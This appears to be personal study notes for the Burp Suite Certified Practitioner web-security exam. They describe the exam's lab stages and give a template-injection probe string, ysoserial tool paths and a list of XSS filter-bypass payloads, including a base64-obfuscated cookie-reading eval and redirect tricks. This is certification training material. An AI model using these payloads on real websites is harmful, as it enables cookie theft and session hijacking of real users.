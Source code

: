 # BSCP
Burp Suite Certified Practitioner exam notes

---------

You will have four hours to complete the Burp Suite Certified Practitioner exam. There are two applications, and each application contains deliberate vulnerabilities. This means that each application can be completed in three stages:

1. Access any user account.
2. Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account.
3. Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution".

[Username list](https://portswigger.net/web-security/authentication/auth-lab-usernames) 

[Password list](https://portswigger.net/web-security/authentication/auth-lab-passwords)

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port `6566`.

`${{<%[%'"}}%\`

java path
```
D:\Application\java\jdk-11.0.20\bin\java.exe
```
ysoserial path
```
D:\Tools\tools\ysoserial\ysoserial-all.jar
```

XSS Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

```
eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))   <--  [echo -n "alert(document.cookie)" | base64 == YWxlcnQoZG9jdW1lbnQuY29va2llKQ==]
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
window['alert'](document['domain'])
window["doc"+"ument"]

location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"





```



